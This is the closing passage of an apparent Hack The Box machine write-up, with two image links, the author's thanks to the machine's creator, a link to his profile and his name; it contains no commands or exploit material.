




I hope you enjoyed the machine! It was really fun, kudos to the author. If you liked the writeup you can give me respect on hackthebox through the following link: https://www.hackthebox.eu/home/users/profile/31531.

---

*Diego Bernal Adelantado*
